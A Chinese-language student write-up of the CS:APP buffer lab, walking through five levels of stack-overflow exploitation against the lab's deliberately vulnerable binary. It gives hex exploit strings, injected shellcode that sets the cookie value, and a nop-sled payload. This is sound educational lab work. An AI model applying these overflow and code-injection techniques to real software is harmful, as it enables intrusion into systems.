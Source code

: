 # buffer lab学习笔记

这个lab的任务和attach_lab一样，也是要求通过栈溢出控制程序流程完成相应任务
## Level 0: Candle (10 pts)
令test函数调用完getbuf函数后执行smoke函数
smoke函数源代码
```
void smoke()
{
printf("Smoke!: You called smoke()\n");
validate(0);
exit(0);
}
```
使用gdb查看smoke函数的地址
```
pwndbg> p smoke
$1 = {<text variable, no debug info>} 0x8048c18 <smoke>
```
然后计算栈溢出偏移是44，能覆盖到eip
构建如下格式的十六进制字符完成题目要求
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
18 8c 04 08
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image1.png)

## Level 1: Sparkler (10 pts)
同level_0的要求，这次需要跳转到fizz函数内
fizz函数源码
```
void fizz(int val)
{
if (val == cookie) {
printf("Fizz!: You called fizz(0x%x)\n", val);
validate(1);
} else
printf("Misfire: You called fizz(0x%x)\n", val);
exit(0);
}
```
这里有个要求是需要让传参等于cookie，因为是32位的程序，所以是栈传参
并且在函数调用时先压入参数再压入返回地址，构造如下内容完成实验
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
42 8c 04 08
00 00 00 00
b8 da 18 28
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image2.png)

## Level 2: Firecracker (15 pts)
题目要求和上面的一样，跳转到bang函数上
查看bang函数源码
```
int global_value = 0;
void bang(int val)
{
if (global_value == cookie) {
printf("Bang!: You set global_value to 0x%x\n", global_value);
validate(2);
} else
printf("Misfire: global_value = 0x%x\n", global_value);
exit(0);
}
```
可以看到需要让全局变量global_value的值和cookie值相同，并且writeup中的提示让我们进行code-injection
与attack-lab的做法一样，通过注入代码后控制eip跳转到我们注入代码的位置
构造如下汇编代码令global_value的值等于cookie
```
mov    $0x2818dab8, %eax //eax = cookie
mov    %eax, 0x0804D100  //0x0804D100 --> [global_value_address] = cookie
push   $0x08048c9d       //bang_address
ret

```
使用gcc将其转变为
```
b8 b8 da 18 
28 89 04 25
00 d1 04 08 
68 9d 8c 04 
08 c3
```
通过gdb调试获得注入代码的位置
```
pwndbg> x/20gx $esp
0x556837c8 <_reserved+1038280>:	0xf7fb6404556837d8	0xbf153c007f87426a
0x556837d8 <_reserved+1038296>:	0x2504892818dab8b8	0x048c9d680804d100
0x556837e8 <_reserved+1038312>:	0x000000000000c308	0x0000000000000000
```
可以看到注入位置在0x556837d8处，然后我们就可以构造hex完成本题了
```
b8 b8 da 18 
28 89 04 25
00 d1 04 08 
68 9d 8c 04 
08 c3 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
d8 37 68 55
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image3.png)

## Level 3: Dynamite (20 pts)
本题要求：
```
修改getbuf()返回值为对应cookie，而不是1；
恢复test函数中的%ebp寄存器内容；
返回到接下去test()函数执行位置正常执行。
```
因为函数的返回值是使用eax寄存器实现的，所以我们可以使用上一个实验的办法进行代码注入后修改eax中的值为cookie再跳转回test函数
而要保证不破坏栈的布局则需要不修改ebp的值，通过gdb获取ebp的值

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image4.png)

使用与上一个实验同样的步骤将下面的汇编代码转为16进制字符串
```
mov   $0x2818dab8, %eax //eax = cookie
push  $0x8048dbe        //test_address
ret
```
```
b8 b8 da 18 
28 68 be 8d 
04 08 c3 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
30 38 68 55
d8 37 68 55
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image5.png)

## Level 4: Nitroglycerin (10 pts)

题目要求与level_3一致，不过比起level_3难度上升了一些
使用-n参数使程序调用testn和getbufn函数，需要将level_3中的要求执行5次，并且ebp的值在一定区间内随机
使用gdb测算本题的溢出偏移为524

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image6.png)

因为ebp在一定区间内随机，也就意味着无法像上题那样直接赋值了，不过可以观察函数反汇编代码

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image7.png)

因为testn和getbufn是caller和callee的关系，也就是说当getbufn执行完毕后esp指向的是testn的栈顶
观察反汇编代码不难看出，esp+0x28处的值即为我们所需要的ebp的值，编写如下汇编指令
```
00000000 <.text>:
   0:	b8 b8 da 18 28       	mov    $0x2818dab8,%eax
   5:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   9:	68 3a 8e 04 08       	push   $0x8048e3a
   e:	c3                   	ret    
```
然后便是writeup提示中让我们使用的 "nop sled",因为ebp的随机化使得我覆盖eip的值也处于随机化的状态，这时使用nop sled在其可能的范围内填充上一大串的nop，犹如做雪橇一般一路滑倒我们所指定的返回地址处，上面算得本题的偏移是524，汇编代码占15位，也就是说再生成'90'x(524-15)位的nop即可
再来就是返回地址的问题了，观察getbufn的反汇编代码
```
   0x0804920c <+0>:	push   ebp
   0x0804920d <+1>:	mov    ebp,esp
   0x0804920f <+3>:	sub    esp,0x218
   0x08049215 <+9>:	lea    eax,[ebp-0x208]
   0x0804921b <+15>:	mov    DWORD PTR [esp],eax
   0x0804921e <+18>:	call   0x8048cfa <Gets>
   0x08049223 <+23>:	mov    eax,0x1
   0x08049228 <+28>:	leave  
   0x08049229 <+29>:	ret    
```
可以看到我们所需要的地址就在[ebp-0x208]处，通过gdb调试后得到如下地址
```
0x55683648
0x556835b8
0x556835a8
```
因为栈是高地址向低地址生长，这边选择最高地址0x55683648作为跳转地址，然后就可以构建本题的exp了
```
'90'x(524-15)
b8 b8 da 18 
28 8d 6c 24 
28 68 3a 8e 
04 08 c3 
a0 36 68 55
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image8.png)

### 小结
这周空闲的时间多了一些，做了两个lab。因为都是跟栈溢出有关的东西原来有些都了解过所以整体体验良好。原先的计划是一个月摸到shell lab，可现在看来还差4个lab才能摸到，菜鸡还需要继续努力啊。

